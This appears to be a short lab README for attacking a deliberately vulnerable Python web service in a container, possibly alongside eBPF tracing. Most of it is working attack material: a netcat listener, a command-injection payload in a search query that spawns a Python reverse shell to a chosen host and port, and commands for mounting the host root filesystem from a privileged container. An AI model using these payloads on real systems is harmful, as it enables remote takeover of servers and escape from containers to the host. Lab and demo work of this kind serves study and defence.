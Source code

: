 
# run netcat to capture incomming reverse shell in a new terminal
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands
Replace <ip> and <port> with your own values

## The exploit, run from a vulnerable input prompt
Run this appended to a vulnerable RCE shell command like the one on vulnerable-python/search?q=

### Using Python to initiate shell
Url encoding makes it annoying to accomplish the desired redirection of the file descriptors when trying to spawn the reverse shell. So we use the python way because we know for a fact that it has python available as it is a python container
With portforward to vulnerable-python deployment
```bash
localhost:5000/search?q=<something>||export RHOST="<IP>";export RPORT=<PORT>;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
```
cat /proc/cmdline
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
>/dev/sda3
mkdir /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker

```

# Ebpf one liners with bpftrace
- list trace points
    bpftrace -l 'tracepoint:syscalls:sys_enter_*' 